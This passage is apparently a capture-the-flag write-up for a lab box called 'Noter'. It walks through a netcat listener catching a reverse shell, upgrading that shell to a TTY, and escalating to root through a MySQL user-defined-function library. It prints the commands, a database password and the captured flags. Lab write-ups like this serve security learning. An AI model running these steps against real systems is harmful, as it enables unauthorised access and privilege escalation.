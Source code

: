 <h3>Start Python webserver</h3>
```sh
$ nc -nvlp 4444
$ sudo python -m http.server 80
```

<h3>Start netcat listener on port 4444</h3>
```sh
┌─[jayden@JD-Desktop]─[~/ctf/noter/zip/1635]
└──╼ $nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.160 49974
whoami
svc
pwd
/home/svc/app/web
ls
app.py
misc
templates
cat /home/svc/user.txt
<strong>eda1d835fa77d477bded5bdda7491a44</strong>
```

**We have succesfully got the user flag!**

<h2>Root</h2>

<p>Upgrade netcat shell to a fully interactive TTY shell to make life easier.</p>

```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
$ stty raw -echo
$ fg
```

<p>After enumerating all services on the box, there is nothing that sticks out. We still have the root credentials for MySQL. Looking at privilege escalation techniques in MySQL leads us to <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library">Privilege Escalation via library</a>.

Download and copy the <a href="https://www.exploit-db.com/exploits/1518">UDF library</a> to the box, and compile it (I put it in the home directory)</p>

<p>['MYSQL_USER'] = 'root' <br>['MYSQL_PASSWORD'] = 'Nildogg36'</p>

```sh
svc@noter:~$ mysql -u root -p
Enter password: 
MariaDB [(none)]> use mysql;
MariaDB [mysql]> create table npn(line blob);
MariaDB [mysql]> insert into npn values(load_file('/home/svc/raptor_udf2.so'));
MariaDB [mysql]> select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system("cat /root/root.txt > /tmp/root.txt ; chmod 777 /tmp/root.txt");
MariaDB [mysql]> exit
Bye
svc@noter:/tmp$ cat root.txt 
<strong>6cc87060b916eefafa8f32950f09248f
</strong>
svc@noter:/tmp$ 
```

<h1>root successfully obtained!</h1>